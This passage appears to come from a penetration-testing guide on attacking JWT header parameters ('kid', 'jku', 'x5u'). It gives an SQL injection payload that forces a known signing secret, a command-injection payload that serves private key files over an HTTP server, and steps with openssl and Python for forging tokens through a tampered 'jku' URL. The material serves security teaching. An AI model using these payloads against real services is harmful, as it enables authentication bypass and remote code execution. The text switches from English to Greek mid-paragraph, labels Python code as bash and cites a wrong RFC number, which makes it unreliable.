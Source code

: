 #### SQL Injection via "kid"

If the `kid` claim's content is employed to fetch a password from a database, an SQL injection could be facilitated by modifying the `kid` payload. An example payload that uses SQL injection to alter the JWT signing process includes:

`non-existent-index' UNION SELECT 'ATTACKER';-- -`

This alteration forces the use of a known secret key, `ATTACKER`, for JWT signing.

#### OS Injection through "kid"

A scenario where the `kid` parameter specifies a file path used within a command execution context could lead to Remote Code Execution (RCE) vulnerabilities. By injecting commands into the `kid` parameter, it's possible to expose private keys. An example payload for achieving RCE and key exposure is:

`/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

### x5u and jku

#### jku

jku stands for **JWK Set URL**.\
If the token uses a “**jku**” **Header** claim then **check out the provided URL**. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.

First you need to create a new certificate with new private & public keys.
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
Στη συνέχεια, μπορείτε να χρησιμοποιήσετε για παράδειγμα το [**jwt.io**](https://jwt.io) για να δημιουργήσετε το νέο JWT με τα **δημιουργημένα δημόσια και ιδιωτικά κλειδιά και να δείξετε την παράμετρο jku στο πιστοποιητικό που δημιουργήθηκε.** Για να δημιουργήσετε ένα έγκυρο πιστοποιητικό jku, μπορείτε να κατεβάσετε το αρχικό και να αλλάξετε τις απαραίτητες παραμέτρους.

Μπορείτε να αποκτήσετε τις παραμέτρους "e" και "n" από ένα δημόσιο πιστοποιητικό χρησιμοποιώντας:
```bash
from Crypto.PublicKey import RSA
fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()
print("n:", hex(key.n))
print("e:", hex(key.e))
```
#### x5u

X.509 URL. Μια URI που δείχνει σε ένα σύνολο δημόσιων πιστοποιητικών X.509 (ένα πρότυπο μορφής πιστοποιητικού) κωδικοποιημένων σε μορφή PEM. Το πρώτο πιστοποιητικό στο σύνολο πρέπει να είναι αυτό που χρησιμοποιείται για την υπογραφή αυτού του JWT. Τα επόμενα πιστοποιητικά υπογράφουν το προηγούμενο, ολοκληρώνοντας έτσι την αλυσίδα πιστοποιητικών. Το X.509 ορίζεται στο RFC 52807. Η μεταφορά ασφάλειας απαιτείται για τη μεταφορά των πιστοποιητικών.
